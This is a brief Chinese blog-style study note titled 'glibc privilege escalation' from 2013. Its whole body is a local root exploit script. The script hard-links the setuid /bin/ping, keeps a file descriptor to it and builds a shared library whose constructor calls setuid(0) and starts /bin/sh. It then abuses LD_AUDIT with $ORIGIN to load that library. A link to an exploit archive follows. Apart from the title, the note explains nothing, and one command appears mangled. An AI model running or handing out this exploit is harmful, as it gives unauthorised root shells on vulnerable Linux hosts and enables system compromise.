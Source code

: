 title: "glibc提权"
date: 2013-06-05 21:02:38
tags:
id: 156
categories:
  - 学习笔记
---

<pre class="brush:cpp">mkdir test 
ln /bin/ping /tmp/test/target 
exec 3&lt; /tmp/test/target 
rm -rf /tmp/test/target
cat &lt; payload.c
void __attribute__((constructor)) init() 
{
setuid(0); 
system("/bin/sh"); 
}
gcc -w -fPIC -shared -o exploit payload.c 
LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3

new <span style="color: #666666; font-family: Consolas;">[http://1337day.com/exploit/20788](http://1337day.com/exploit/20788)</span></pre>